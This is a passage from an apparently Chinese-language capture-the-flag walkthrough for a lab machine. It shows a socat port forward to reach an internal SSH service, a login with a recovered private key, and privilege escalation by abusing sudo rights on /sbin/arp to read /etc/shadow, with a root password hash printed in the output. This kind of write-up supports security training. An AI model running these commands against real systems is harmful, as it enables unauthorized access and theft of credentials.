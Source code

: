 ```shell
netstat -lntup
Active Internet connections (only servers)
...          
tcp        0      0 127.0.0.1:22            0.0.0.0:*               LISTEN      -                   
...
```

为了能够使用获取到的私钥登录，需要在靶机上进行端口转发，将内部的SSH服务暴露给攻击机。这里使用`socat`将2222端口的流量转发至127.0.0.1:22。

```shell
socat TCP-LISTEN:2222,fork TCP4:127.0.0.1:22 &
```

现在，可以使用私钥通过2222端口SSH登录`hana`用户。

```shell
┌──(kali㉿kali)-[/tmp]
└─$ # ... (还原私钥到 /tmp/id_rsa) ...
                                                                                   ┌──(kali㉿kali)-[/tmp]
└─$ sed -i 's/^-//' id_rsa                                                                                          
┌──(kali㉿kali)-[/tmp]
└─$ chmod 600 id_rsa
                                                                                                                                                                                  
┌──(kali㉿kali)-[/tmp]
└─$ ssh hana@192.168.205.149 -p 2222 -i /tmp/id_rsa
...
devoops:~$ id
uid=1001(hana) gid=100(users) groups=100(users),100(users)
```

成功以 `hana` 用户身份登录。

# **五、权限提升**

登录 `hana` 用户后，检查其 `sudo` 权限。

```shell
devoops:~$ sudo -l
Matching Defaults entries for hana on devoops:
...
User hana may run the following commands on devoops:
    (root) NOPASSWD: /sbin/arp
```

结果显示 `hana` 用户可以无密码以root权限执行 `/sbin/arp` 命令。这是一个已知的可被利用于提权的配置。查询 [[GTFOBins](https://gtfobins.github.io/gtfobins/arp/#sudo)](https://gtfobins.github.io/gtfobins/arp/#sudo) 可知，`arp` 命令的 `-f` 参数可以加载一个文件，如果指定的文件不存在或格式错误，它会尝试逐行读取并显示文件内容，从而实现任意文件读取。

利用此特性读取 `/etc/shadow` 文件，获取root用户的密码哈希。

```shell
devoops:~$ sudo arp -v -f /etc/shadow
>> root:$6$FGoCakO3/TPFyfOf$6eojvYb2zPpVHYs2eYkMKETlkkilK/6/pfug1.6soWhv.V5Z7TYNDj9hwMpTK8FlleMOnjdLv6m/e94qzE7XV.:20200:0:::::
....
```
